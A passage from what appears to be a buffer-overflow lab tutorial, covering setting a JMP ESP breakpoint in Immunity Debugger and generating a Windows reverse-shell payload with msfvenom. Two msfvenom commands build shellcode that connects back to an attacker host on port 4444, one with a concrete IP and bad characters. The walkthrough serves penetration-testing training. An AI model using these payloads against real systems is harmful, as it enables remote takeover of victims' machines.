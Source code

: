 * Save the file&#x20;
* Go back to Immunity
* Copy the address you are using&#x20;

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

* Select the circled button and paste in the value and hit enter
* Right-click JMP ESP > Breakpoint > Toggle
* Run the exploit again
* You will notice that a breakpoint was triggered upon execution
* <mark style="color:yellow;">NOTE: If this is not behaving correctly, restart the program and run through the steps once more</mark>

## Generate Payload

We will utilize msfvenom

* Be sure to utilize the correct architecture (Windows or Linux depending on your target)
* Use your VPN IP address for the LHOST
* Utilize the bad chars for EXITFUNC

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.111.208 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```


